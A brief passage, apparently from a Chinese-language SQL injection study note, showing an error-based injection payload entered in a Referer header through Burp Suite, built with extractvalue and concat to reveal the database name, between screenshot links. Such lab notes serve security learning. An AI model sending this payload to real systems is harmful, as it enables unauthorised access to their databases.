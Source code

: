 ![image-20240306211047706](SQL%E6%B3%A8%E5%85%A5.assets/image-20240306211047706.png)

```mysql
在burpsuite中输入
Referer: ' or extractvalue(1,concat('~',(select database()))),2)#
```

![image-20240306211532796](SQL%E6%B3%A8%E5%85%A5.assets/image-20240306211532796.png)

